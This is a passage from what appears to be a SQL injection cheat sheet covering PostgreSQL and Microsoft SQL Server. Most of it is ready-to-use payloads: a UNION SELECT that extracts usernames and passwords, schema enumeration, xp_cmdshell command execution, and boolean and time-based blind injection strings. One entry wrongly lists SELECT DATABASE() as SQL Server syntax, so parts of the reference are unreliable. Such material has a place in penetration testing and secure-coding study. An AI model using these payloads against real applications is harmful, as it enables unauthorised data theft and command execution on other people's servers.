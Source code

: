 ### **4.4 UNION-Based Injection**

PostgreSQL can also use the `UNION` keyword to combine query results:

```sql
' UNION SELECT null, username, password FROM users --
```

---

## **5. SQL Server (MS SQL) Specific SQL Injection**

### **5.1 Retrieving Database Information**

In SQL Server, use `INFORMATION_SCHEMA` to get table info:

```sql
SELECT DATABASE();  -- Get current database name
SELECT * FROM INFORMATION_SCHEMA.TABLES;  -- Get all tables
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users';  -- Get columns of the users table
```

### **5.2 SQL Server Functions**

- `@@version` – Get SQL Server version:

```sql
SELECT @@version;
```

- `sysobjects` – List all tables in the database:

```sql
SELECT name FROM sysobjects WHERE type = 'U';  -- List user tables
```

- `xp_cmdshell` – Execute system commands (if enabled):

```sql
EXEC xp_cmdshell('dir');  -- Get system directory
```

### **5.3 SQL Server Blind Injection**

Just like MySQL and Oracle, you can use **blind injection** to infer information by checking responses:

```sql
' AND 1=1 --  -- True
' AND 1=2 --  -- False
```

### **5.4 Time-Based Blind Injection in SQL Server**

```sql
' WAITFOR DELAY '00:00:05' --  -- Delay execution for 5 seconds
```
